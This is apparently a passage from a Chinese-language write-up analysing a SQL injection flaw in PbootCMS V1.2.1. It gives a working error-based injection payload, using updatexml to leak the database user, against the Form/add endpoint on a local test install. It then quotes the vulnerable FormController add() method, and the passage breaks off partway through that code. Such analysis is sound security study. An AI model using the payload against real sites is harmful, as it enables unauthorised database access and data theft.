 ```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
post：
  tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111 
```

![image](img/e27b8559ba1c6beea4b96aca78d89e59.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\apps\home\controller\FormController.php
方法：add(

```
// 表单提交
    public function add()
    {
        if ($_POST) {

```
 if (time() - session('lastsub') &lt; 10) {
            alert_back('您提交太频繁了，请稍后再试！');
        }

        if (! $fcode = get('fcode', 'var')) {
            alert_back('传递的表单编码有误！');
        }

        if ($fcode == 1) {
            alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
        }

        // 验证码验证
        /*
         * $checkcode = post('checkcode');
         * if ($this-&gt;config('message_check_code')) {
         * if (! $checkcode) {
         * alert_back('验证码不能为空！');
         * }
         * if ($checkcode != session('checkcode')) {
         * alert_back('验证码错误！');
         * }
         * }
         */

